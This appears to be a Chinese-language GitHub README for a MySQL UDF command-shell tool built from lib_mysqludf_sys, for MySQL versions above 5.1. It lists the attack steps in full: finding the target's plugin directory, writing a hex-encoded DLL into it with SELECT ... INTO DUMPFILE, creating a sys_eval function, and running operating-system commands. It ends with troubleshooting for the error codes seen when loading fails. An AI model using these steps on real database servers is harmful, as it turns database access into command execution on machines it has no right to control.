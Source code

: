 # mysql_udf #

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**

源码来自https://github.com/mysqludf/lib_mysqludf_sys

dll文件编译自vs2012

    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ redistrubutable

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)


